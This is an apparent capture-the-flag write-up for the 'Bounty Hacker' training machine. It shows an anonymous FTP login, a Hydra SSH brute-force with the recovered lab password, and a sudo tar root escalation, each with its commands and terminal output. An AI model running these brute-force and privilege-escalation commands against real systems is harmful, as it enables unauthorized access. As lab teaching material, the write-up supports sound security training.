 Always start with a nmap scan. 

```
nmap-output

```
We have port 21 FTP which is anonymous login allowed, 22 SSH with ubuntu running and 80 HTTP open. Let's see whats in the website.

--webpage--

Nothing interesting from this webpage. 

# Who wrote the task list?
Let's see what we have in FTP server. 
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ftp 10.10.55.156
Connected to 10.10.55.156.
220 (vsFTPd 3.0.3)
Name (10.10.55.156:visith): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: task.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (6.0500 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (123.4317 kB/s)
ftp> exit
221 Goodbye.
```
In task.txt file :
```plain
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
In locks.txt file we found some lists of words looks like passwords.

# What service can you bruteforce with the text file found?

Answer must be '**SSH**' any other service we haven't found.

# What is the users password? 

Let's try to bruteforce the ssh service with **hydra**. Here is my command to hydra.

```bash
hydra -l lin -P locks.txt ssh://10.10.55.156:22 | tee scans/hydra-output
```
My hydra output was :
* login: lin 
* password: RedDr4gonSynd1cat3

```plain
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 16:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.55.156:22/
[22][ssh] host: 10.10.55.156   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-10 16:50:46
```
# user.txt
Let's login into *lin* user.
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ssh lin@10.10.55.156
The authenticity of host '10.10.55.156 (10.10.55.156)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.55.156' (ECDSA) to the list of known hosts.
lin@10.10.55.156's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{************}
```
# root.txt

Before run any enumeration scripts I like to look into **sudo -l**. Here what I found.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
**tar** is allowed to run as superuser. Let's see our friend *GTFObins* what got here is link to documentation.
https://gtfobins.github.io/gtfobins/tar/

--gtfobins--

I change this little bit.
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
I change /bin/sh to /bin/bash to get a good looking shell.
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
[sudo] password for lin: 
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# bash -p
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
THM{**********}
```
